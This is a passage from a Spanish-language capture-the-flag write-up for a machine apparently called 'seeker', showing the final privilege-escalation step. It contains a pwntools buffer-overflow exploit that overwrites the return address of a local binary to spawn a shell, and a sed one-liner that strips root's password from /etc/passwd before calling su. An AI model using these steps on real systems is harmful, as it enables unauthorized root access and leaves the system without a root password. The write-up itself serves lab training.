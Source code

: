 en este caso tendremos que utilizar la dirección `0x40136b`.

finalmente, el exploit quedaría asi:

```python
#!/usr/bin/env python3

from pwn import *


def exploit():
    binario = '/home/astu/secure/bs64'
    i = process(binario)

    buffer = b"\x90"*72
    RIP = p64(0x40136b)

    payload = buffer + RIP


    i.sendline(payload)
    i.interactive()

if __name__ == '__main__':
    exploit()
```

lo pasamos a la máquina y al ejecutarlo tendreoms una sh casi como root, ya que todavía no tenemos los permisos totales de root, para arreglar esto, simplemente ejecutamos lo siguiente:

```css
sed 's/root:x:/root::/g' /etc/passwd -i && su
```

y ya seremos root al 100%.

### Root

![Root](images/seeker/root.png)



Gracias por leer ;)